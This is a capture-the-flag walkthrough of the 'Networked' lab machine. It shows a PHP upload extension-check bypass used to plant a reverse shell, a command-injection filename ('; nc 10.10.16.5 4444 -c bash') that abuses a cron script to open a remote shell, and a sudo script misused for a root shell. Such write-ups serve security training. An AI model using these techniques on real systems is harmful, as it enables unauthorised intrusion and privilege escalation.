# Networked

## Gaining Access

Nmap scan:



### File Upload RCE

First, we can use `gobuster` on the website:



The `/backup` directory would show us a directory with a backup file:



Within the backup file, there's this PHP code here:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

In short, we can see that this file checks for the file extensions before accepting a file. Seeing that this is a PHP file, we can attempt to upload a PHP reverse shell. To bypass the extension check, notice how it uses `substr_compare` and verifies whether a valid extension is present. As such, we can create a file ending in `.jpg.php` to bypass this:



Then, we can upload it to `upload.php`. We can visit `photos.php` to trigger the shell:





## Privilege Escalation

### To Guly

Within the machine, we can view the user `guly` directory:



The crontab specifies that the user is running the `check_attack` script routinely.



One dangerous part of this script is the usage of `exec` to run stuff. The `$value` variable is not sanitised, and we can exploit this by creating a file with the name of `; nc 10.10.16.5 4444 -c bash` within the `/var/www/html/uploads` directory. After doing this and waiting, we would gain a reverse shell and can capture the user flag:



### To Root

We can check the `sudo` privileges of this user and find that there's one script we can run as `root`.



Here's the script's contents:



This takes user input and executes does not sanitise it at all. When we run the script, we can actually execute commands:



To get a `root` shell, we just need to run `/bin/bash`:



Rooted!
